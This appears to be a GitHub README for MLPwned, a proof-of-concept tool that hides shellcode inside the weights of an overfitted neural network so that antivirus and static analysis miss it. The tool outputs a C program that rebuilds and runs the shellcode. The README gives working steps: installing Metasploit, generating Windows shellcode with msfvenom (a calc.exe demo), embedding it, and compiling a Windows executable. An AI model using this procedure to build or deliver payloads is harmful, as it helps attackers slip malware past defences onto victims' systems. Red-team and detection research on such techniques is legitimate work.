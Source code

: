 # MLPwned

MLPwned is a proof-of-concept tool that uses a small, overfitted neural network (specifically a multi-layer perceptron) to store and reconstruct arbitrary shellcode at runtime. By embedding the shellcode bytes into the model’s learned weights, the script makes static analysis significantly more difficult. This is because traditional antivirus or forensic tools won’t directly detect malicious byte sequences in the binary. The final output is a self-contained C file that includes both the trained model parameters and logic needed to rebuild and execute the shellcode on demand, all without requiring a GPU. This approach is inspired by implicit neural representations, highlighting how neural networks can be used in unconventional ways to obfuscate and deliver malicious payloads.

## Table of Contents

- [Installation](#installation)
- [Usage](#usage)
- [License](#license)

## Installation

### 1. Install Metasploit

Download and install Metasploit using the following commands:

```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
chmod 755 msfinstall && \
./msfinstall
```

### 2. Install Python Packages

```bash
pip install -r requirements.txt
```

### 3. Install MinGW-w64

```bash
sudo apt update
sudo apt install mingw-w64
```

## Usage

### 1. Generate Shellcode with msfvenom

```bash
msfvenom -a x64 --platform Windows -p windows/x64/exec CMD=calc.exe -f python
```
![MLPwned Screenshot](assets/2.jpg)

### 2. Embed the Shellcode into MLPwned.py
Copy and paste the Python-formatted shellcode into `MLPwned.py` under the comment:
```bash
# Add msfvenom shellcode below
```

### 3. Run the Python Script

```bash
python MLPwned.py
```
![MLPwned Screenshot](assets/1.jpg)


### 4. Compile MLPwned.c to a Windows Executable

```bash
x86_64-w64-mingw32-gcc -o MLPwned.exe MLPwned.c
```